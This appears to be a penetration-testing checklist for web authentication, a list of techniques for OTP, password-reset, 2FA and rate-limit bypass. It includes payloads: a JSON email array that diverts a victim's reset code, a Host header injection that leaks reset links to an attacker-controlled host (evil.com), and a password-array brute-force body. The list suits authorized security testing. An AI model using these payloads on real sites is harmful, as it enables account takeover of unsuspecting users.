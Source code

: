 # Authentication Testing

## Login Page:
  - Try

## Email confirmation bypass:

  - Try response manupulate to cofirm email
  - while confirm email try this: intecept request to burp and change your mail to another person mail if you cloud get success. 
  
## OTP Relate Testing:

  - If you can manupulate response code to 200 and 302.
  - If you brute force login OTP
    - If WAF try Ip rote extension
    - Read some article and reports about rate limit bypass
  - While you confirming OTP try to change you email to victim email: if you cloud login as another user.
  - If target reseting password via OTP confirmation than you can add another emil with your mail: while request for reseting password:
    ```json
    {
     "email": [
       "victim@email.com",
       "you@email.com"
      ]
    }
    # If you got OTP in your mail try reset password: then possible victim account takeover 
    ```

## Password Reset functionality:
  - Try to add Host header in reset password request.
  - While reset password see if we can reset without knowing current password. By response manipulate. 
  - While reseting password intercept request to burp and see if you cloud add ```<a href>``` tag and see in email if there anything changes. 

## Authentication:
	
  - Bypass Rate Limit with X-Forwarded-For: to pwn authentication
  - Host header injeciton in forgot password page
	- Test Remember me functionality
  - Test password reset and/or recovery
  - 2FA Bypass
    - Access the content directly (site.com/profile)
    - Login using Oauth gmail or FB to bypass 2FA
    - Reset Password and login inoto the account to bypass 2FA 
    - Use old toke or change the response
  - Goto the reset password page and add two emails while sending the reset password link
		[You can recive two password reset link]
  - Web Cache deception [site.com/profile/min.js]
  - PHP protection can be bypassed using [] such as password=1234 ----> password[]= (CSRF token too)
  - While resetting password change the host header to your server (VPS) = secret link to your VPS
  - Bypass rate limit protection: You can use IP-Rotate burp extension or you can change system IP per request.
	
  - Password reset poisoning via dangling markup
	```Host: victim.com:'<a href="//evil.com/?  ```

  - Add X-Forwarded-For: 127.0.0.1 or 1-1000 to bypass the rate limit protection.

  - Login into the valid account and then into valid one, repeat this process to fool the sever to bypass the rate limit protection (observe that your IP is blocked        if your submit 3 incorrect logins in a row. However, you can reset the counter by logging in to your own account before the limit is reached)

  - replace the single string value of the password with an array of string containing all of the candidate passwords, for Example:
	
```json
	"username": "test",
	"password": [
		"1234",
		"password",
		"qwerty"
		....
	]
```

  - If you enter the wrong code twice, you will be logged out again bypass it using macros (You need to use burp's session handlling features to log back in
    automatically before sending each request.)
	
